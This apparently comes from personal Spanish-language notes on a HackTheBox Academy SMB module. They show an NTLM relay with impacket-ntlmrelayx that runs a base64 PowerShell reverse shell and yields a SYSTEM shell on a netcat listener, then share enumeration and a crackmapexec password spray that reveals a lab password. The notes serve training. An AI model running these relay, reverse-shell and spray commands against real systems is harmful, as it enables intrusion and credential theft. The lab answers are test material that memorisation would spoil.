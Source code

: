 ```shell-session
[*] Restoring the disabled state for service RemoteRegistry
```

Podemos crear un shell inverso de PowerShell usando https://www.revshells.com/, configurar la dirección IP de nuestra máquina, el puerto y la opción Powershell #3 (Base64):

```shell-session
Polika4RM@htb[/htb]$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e JABjAGwAaQBlAG4AdAAgAD... ... GUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA'
```

Una vez que la víctima se autentica en nuestro servidor, envenenamos la respuesta y hacemos que ejecute nuestro comando para obtener un shell inverso.

```shell-session
Polika4RM@htb[/htb]$ nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.10.110.133] from (UNKNOWN) [10.10.110.146] 52471

PS C:\Windows\system32> whoami;hostname

nt authority\system
WIN11BOX
```

---

Target(s): 10.129.187.155
**1. What is the name of the shared folder with READ permissions?**
Ejecuto un:
```
smbclient -N -L //10.129.187.155

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	GGJ             Disk      Priv
	IPC$            IPC       IPC Service (attcsvc-linux Samba)
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
protocol negotiation failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available

```

Siendo la respuesta: GGJ

**2. What is the password for the username "jason"?**
Ejecuto:
```
crackmapexec smb 10.129.187.155 -u jason -p password.list --local-auth
```

Y una salida es:
```
SMB         10.129.187.155  445    ATTCSVC-LINUX    [+] ATTCSVC-LINUX\jason:34c8zuNBo91!@28Bszh 
```
